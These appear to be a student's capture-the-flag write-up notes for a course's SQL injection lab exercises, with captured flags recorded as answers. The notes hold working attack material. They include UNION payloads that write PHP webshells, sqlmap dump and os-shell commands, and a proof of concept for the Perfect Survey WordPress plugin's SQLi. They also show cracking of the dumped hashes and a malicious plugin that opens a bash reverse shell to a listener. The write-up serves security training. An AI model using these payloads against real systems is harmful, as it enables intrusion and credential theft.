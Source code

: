

2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section in order to manually exploit the UNION-based SQLi.
	   Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.

- Auth bypass
![](10ex_authBypass.png)

- Find # of columns
```sql
' order by 1-- -
```
![](10ex_orderby6.png)

- Insert webshell
```sql
%' union select "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php"-- 
```

- Cat flag
```bash
# In URL
http://192.168.246.19/tmp/webshell.php?cmd=cat%20flag.txt
```


> Answer:  OS{42b86739388422346bc1c9f4e730d3aa}



3. Connect to the MySQL VM 3 and automate the SQL injection discovery via sqlmap as shown in this section. 
	   Then dump the _users_ table by abusing the time-based blind SQLi and find the flag that is stored in one of the table's records.

**\*\*NOTE:**  Nowhere in the app does it state/ suggest that there's a */blindsqli.php* site to navigate to.
- FURTHERMORE, */blindsqli.php* immediately redirects to *login1.php?msg=2*  which is not vulnerable.  So the "as shown in this section" is a specific, literal direction

```bash
# Warning:  takes easily over an hour
sqlmap -u http://192.168.221.19/blindsqli.php?user=u -p user -T users --dump --threads=10
```

> Answer:  OS{afe2bd417dc053792c45c5937199f396}



4. **Capstone Exercise**: Enumerate the Module Exercise - VM #1 and exploit the SQLi vulnerability in order to get the flag.
	   Hint: To enhance the attack efficiency, it's recommended to manually identify the injection point before deploying any automated tool
		someone's write-up:   https://medium.com/@mhwee/sqli-in-wp-perfect-survey-plugin-f5823379317a

- Enumerating yielded nothing special
```bash
nmap -Pn 192.168.221.47
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

gobuster dir -u http://192.168.221.47 -w /usr/share/wordlists/dirb/common.txt
	/css                  (Status: 301) [Size: 314] [--> http://192.168.221.47/css/]
	/images               (Status: 301) [Size: 317] [--> http://192.168.221.47/images/]
	/index.html           (Status: 200) [Size: 15405]
	/js                   (Status: 301) [Size: 313] [--> http://192.168.221.47/js/]
```

- Browsing to site turns up site hxxp://alvida-eatery.org/ which only displays malware/ phishing page.
- **[Virtual hosting](https://www.youtube.com/watch?v=NMGsnPSm8iw&t=120s) is in play here** Fix by adding to **/etc/hosts**
```bash
sudo vim /etc/hosts
	#add
	192.168.221.47  alvida-eatery.org
```

- Wappalyzer shows use of WordPress
- Search for vuln plugins/ admin consoles (lots of results w/ API)
```bash
wpscan --url alvida-eatery.org --enumerate p --api-token <token> > wpscn
	[+] Upload directory has listing enabled: http://alvida-eatery.org/wp-content/uploads/
	...
	[+] perfect-survey
	 | Location: http://alvida-eatery.org/wp-content/plugins/perfect-survey/
	 | [!] Title: Perfect Survey < 1.5.2 - Unauthenticated SQL Injection
	 |     Fixed in: 1.5.2
	 |     References:
	 |      - https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad
	 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24762
	 ...
```

- Use POC in wpscan.com site shown in results, OR search for CVE in ExploitDB  https://www.exploit-db.com/exploits/50766
```bash
# POC
http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users
```

- JSON file will come back w/in the browser.   Search for $  and save hash in file
```bash
vim pw
	# Insert
	$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0
```

- Run [hashcat](Tools.md#hashcat)
```bash
hashcat -m 400 -a 0 -O pw /usr/share/wordlists/rockyou.txt
	$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0:hulabaloo
```

- Navigate to hxxp://alvida-eatery.org/wp-admin and login w/ **admin:hulabaloo** creds.
- Goto Plugins
- Craft reverse shell plugin
```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

# Edit IP and port below to match nc listener on local
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/4444 0>&1'");
?>
```
- Zip & start nc listener
```bash
zip reverse.zip reverse_shell.php
nc -nlvp 4444
```
- Add New Plugin & Activate
	- Should have reverse connection in listener
- Search directories
```bash
www-data@Alvida:/var/www/wordpress/wp-admin$ ls ../../
	ls ../../
	flag.txt
	html
	wordpress
www-data@Alvida:/var/www/wordpress/wp-admin$ cat ../../flag.txt
	cat ../../flag.txt
	OS{50721ad4f7d57b37a360790ac19f7412}
```


> Answer:  OS{50721ad4f7d57b37a360790ac19f7412}



5. **Capstone Exercise**: Enumerate the Module Exercise - VM #2 and exploit the SQLi vulnerability in order to get the flag.

- Enumerate
```bash
nmap -Pn 192.168.209.48
	PORT      STATE    SERVICE
	22/tcp    open     ssh
	80/tcp    open     http
	1124/tcp  filtered hpvmmcontrol
	1186/tcp  filtered mysql-cluster
	2909/tcp  filtered funk-dialout
	3077/tcp  filtered orbix-loc-ssl
	3268/tcp  filtered globalcatLDAP
	3301/tcp  filtered tarantool
	3306/tcp  open     mysql
	3703/tcp  filtered adobeserver-3
	4444/tcp  filtered krb524
	6059/tcp  filtered X11:59
	9594/tcp  filtered msgsys
	13783/tcp filtered netbackup
	14238/tcp filtered unknown
	22939/tcp filtered unknown
	27352/tcp filtered unknown
	30951/tcp filtered unknown
	44443/tcp filtered coldfusion-auth
	50006/tcp filtered unknown
```
- **Wappalyzer**, **Gobuster**, **feroxbuster**, and **dirsearch** didn't yield any juicy results

- Browsing through the site gave three total pages:  **index.php**, **about.php**, and **donate.php**
	- So, they use PHP.
	- Found a Subscribe "Enter your email" field on **index.php** which generates a POST request
	![](10.3.2.5ex_emailPost.png)

##### Manual
- Send POST request to Repeater, and SEND original for comparisons
- Note line number for    \<!-- end subscribe section --\>    (319) - Makes it easier to find what you're looking for
- Run ***order by # --***  attempts and scour Response's Subscription section for any column number errors
	- IGNORE NUMBER IN IMAGE!    Correct # of columns is **6**
  ![](10.3.2.5ex_orderby.png)
  - Attempt writing shell via INTO OUTFILE
	  - Might need to troubleshoot to figure where to save the webshell
```sql
UNION SELECT null, "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php"-- //
```

- Navigate to webshell and trigger exploit
```bash
http://192.168.209.48/webshell.php?cmd=find%20/%20-name%20flag.txt%20|%20grep%20flag.txt
	\N /var/www/flag.txt \N \N \N \N
http://192.168.209.48/webshell.php?cmd=cat%20/var/www/flag.txt
```

##### Automatic w/ sqlmap
- Save original, clean POST request to **subscribe_POST.txt**
- Get shell in **sqlmap**
```bash
sqlmap -r subscribe_POST.txt -p mail-list --os-shell
	...
	os-shell> find / -name flag.txt | grep flag.txt
		do you want to retrieve the command standard output? [Y/n/a] 
	Y
		command standard output: '/var/www/flag.txt'
	os-shell> cat /var/www/flag.txt
```


> Answer:  OS{ddb87012b9a6c37dff575a5b8ae36d5e}



6. **Capstone Exercise**: Enumerate the Module Exercise - VM #3 and exploit the SQLi vulnerability in order to get the flag.



> Answer:  .



7. **Capstone Exercise**: Enumerate the Module Exercise - VM #4 and exploit the SQLi vulnerability in order to get the flag.

> Answer:  .